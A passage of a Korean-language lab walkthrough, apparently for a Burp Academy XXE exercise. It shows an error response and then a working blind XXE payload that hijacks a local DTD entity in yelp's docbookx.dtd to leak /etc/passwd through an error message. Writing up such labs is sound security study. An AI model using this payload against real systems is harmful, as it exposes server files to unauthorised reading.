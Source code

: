 응답은 다음과 같다. 동일한 에러 메세지다. docbookx.dtd 파일 자체에 문제가 있는데, 이 것을 어떤 방법을 사용해서 exploit할 필요가 있어 보인다...

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 118

"XML parser exited with error: org.xml.sax.SAXParseException; lineNumber: 10; columnNumber: 3; Premature end of file."
```

4. 아.. 생각해보니 `custom_entity`부분을 `/usr/share/yelp/dtd/docbookx.dtd`에 존재하는 엔터티명으로 변경해야 한다고 했다. `docbookx.dtd`는 구글 검색하면 내용을 알 수 있을 것이다. 

[github](https://github.com/GNOME/yelp/blob/master/data/dtd/docbookx.dtd)에서 찾을 수 있었다. 확인해보면 엔티티 `ISOamsa`, `ISOamsb`, `ISOamsc` 등이 존재하는 것을 알 수 있다.  


5. 페이로드를 다음과 같이 변경해서 보내본다. 

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

그러면 다음과 같이 /etc/passwd의 내용이 회신되는 것을 볼 수 있다. XXE 인젝션에 성공했다! 🍔

![](/images/burp-academy-xxe-9-1.png)
